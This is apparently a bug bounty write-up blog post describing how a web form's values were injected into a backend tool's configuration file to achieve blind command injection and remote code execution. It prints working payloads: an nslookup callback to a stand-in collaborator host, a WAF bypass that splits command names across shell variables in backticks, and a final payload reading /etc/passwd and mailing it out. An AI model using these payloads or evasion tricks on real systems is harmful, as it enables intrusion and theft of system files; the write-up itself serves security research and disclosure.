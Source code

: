 ```yaml
---                                                                                                                                                                                                                                   
layout: default
title:  "Backend Parameter Injection --> RCE"
date:   2023-03-14 11:02:21 0100
author: Sysdum
---  
```

## Background

After performing my recon on a private program, I came across a pretty standard web form that accepted around 10 different numerical values, performed some calculations, and then emailed the results back to the user. 

This behavior piqued my interest as this was on a more obscure subdomain, it accepted a lot of variables, and probably passed input to something that wasn't designed for the web. 

Here is an example of what the web form looked like:
![Web-Form](/assets/param-rce-web-form.jpg)

I submitted the form a few times and after fumbling with the parameters, I got an email back with what looked like terminal output (the misaligned pipes are a dead giveaway).

![Email-Output](/assets/param-rce-email-output.jpg)

Any time I find an interesting application, I first check if it is open-source so that I can see how it works. I googled the variable names within the response and found a repository (let's call it CalcTool) on GitHub. After looking over the readme, I learned CalcTool reads a configuration file and generates output very similar to the email I received.

This raised several questions. Is this application passing data directly to CalcTool's configuration file? If so, can I exploit its behavior somehow?

## CalcTool Code Review

I looked over the sample configuration file on GitHub and found that the form values lined up exactly with the variables on the web form. This confirmed my suspicion that the web app was passing input to CalcTool. 

My next goal was to determine if there was any dangerous functionality within CalcTool that I could hit from the web application. I decided to try and locate dangerous function calls such as exec, execv, and system. These calls are usually vulnerable to command injection if the attacker can pass arbitrary input to these functions.

After some time, I found exactly one system() call. It was in an email function that dynamically constructed the arguments from the CalcTool configuration file:

```plaintext
margs = "-s CalcTool Output: '" + jobtitle + "' " + email + " < LOGFILE"
System ("mail" + text)
```

The end result of these string operations is the following command:

```plaintext
mail -s 'CalcTool Output: job173' email@example.com < /path/to/LOGFILE
```

Unfortunately, I only had access to the email variable. On top of that, the web application used a regular expression to filter out any useful special characters like: \` $ ( ). 

At this stage we know the following so far:

*   The web application passes web form values in a one-to-one fashion to CalcTool's config file.
*   There is only one form value that **we control** that is passed to a system() call within CalcTool, which is our best chance at exploitation.
*   The goal is to find a way to pass something we control directly to that system call

### Polluting the Configuration

Bypassing filters can be tricky. In web applications, one common filter bypass technique is parameter pollution.

PortSwigger defines parameter pollution as:

```plaintext
HTTP Parameter Pollution tests the applications response to receiving multiple HTTP parameters with the same name; for example, if the parameter username is included in the GET or POST parameters twice.

Supplying multiple HTTP parameters with the same name may cause an application to interpret values in unanticipated ways. By exploiting these effects, an attacker may be able to bypass input validation, trigger application errors or modify internal variables values. 
```

Now, we know the web application accepts the variables as multi-part form data, which is not typically vulnerable to HTTP parameter pollution. However, I noticed that CalcTool's configuration file had a few other numeric variables that lined up with similar ones from the web form. 

If the web application was writing these values to a CalcTool configuration file, then what would happen if a variable were defined more than once?

Here is an example of what a configuration file looks like:

```plaintext
Title "job title"
Email "email@example.com"
LOGFILE "log.txt"
Parameter_a 10
Parameter_b 1.4
```

It is a simple text file with a parameter followed by a "value" on each line.

I decided to apply the concept of HTTP parameter pollution to the configuration file. Thus I tried polluted the job title variable using one of the numeric form values. If I could set the title to the word "polluted", then the subject of my email should read "CalcTool Output: Polluted" instead of the normal "JobOutput\_1948333".

After pollution, the form value looked something like this:

```plaintext
-------------------------384837281
Content-Disposition: form-data; name="frequency"

10
Title "polluted"
-------------------------384837281
```

10 is the original value of the frequency form value, and I added a new line with the polluted title variable.

My goal was for the configuration file to look like this:

```plaintext
Title "jobid12"
...
Range 300
Frequency 10
Title "polluted"
```

For this to work, the application would need to keep **only** the **last** declaration of the title variable instead of keeping the first declaration. I then used BurpSuite's intercept feature to catch the form and add the polluted variable on a new line. I received the following email:

![Polluted Job](/assets/param-rce-job-polluted.jpg)

This output means that the pollution worked!

The next step was to prove a command injection vulnerability. Due to the mail command not retuning its output directly to me, this is essentially a blind command injection. Therefore, I needed an out-of-band method of exfiltrating data. I tried the following payload using Burp Collaborator:

```plaintext
-------------------------384837281
Content-Disposition: form-data; name="frequency"

10
Title "$(nslookup mycollaborator.com)"
-------------------------384837281
```

After sending the request and editing it with Burp, this time I was met with a 403 forbidden status from the web server. After trying a couple of other common payloads, I discovered that the application was behind a Web Application Firewall (WAF). 

It was configured to block most Linux commands and would not allow $() or {} at all.

However, backticks were allowed. So I tried the following variant:

```plaintext
...
-------------------------384837281
Content-Disposition: form-data; name="frequency"

10
Title `a=nslo;b=okup;$a$b mycollaborator.com`
...
```

This payload does the following:

*   Declares a variable and sets it to be the value “nslo”
*   Declares a variable b and sets it to be the value “okup”
*   Runs the command $a$b which combines a and b to form the nslookup command. Then I simply passed it mycollaborator.com (a placeholder for the actual collaborator URL) in order to get my lookup.

After checking my collaborator client, I saw some activity! This means my blind command injection worked. However, I needed to exfiltrate data in order to prove remote code execution.

```plaintext
...
-------------------------384837281
Content-Disposition: form-data; name="frequency"

10
Title `a=ca;b=t;$a$b /e*c/pa*s*d > /tmp/synack77`
LOGFILE /tmp/synack77 
...
```

### Here is a breakdown of the final exploit chain:

*   CalcTool's configuration file allows for the definition of a log file.
*   The email function I showed earlier reads this log into the body of the email in order to send the results back to the user.
*   I needed to pollute the title parameter with a payload to write command results to a file.
*   Then I required a way to send the results back to me, so I polluted the logfile parameter to the command result file.
*   The results of the calculations would be overwritten by my command, and then the mail command would email me the results of my command

![Final Payload](/assets/param-rce-final-payload.png)

The results of the email:

![Payload Contents](/assets/param-rce-email-output-passwd.jpg)

Thanks for reading!

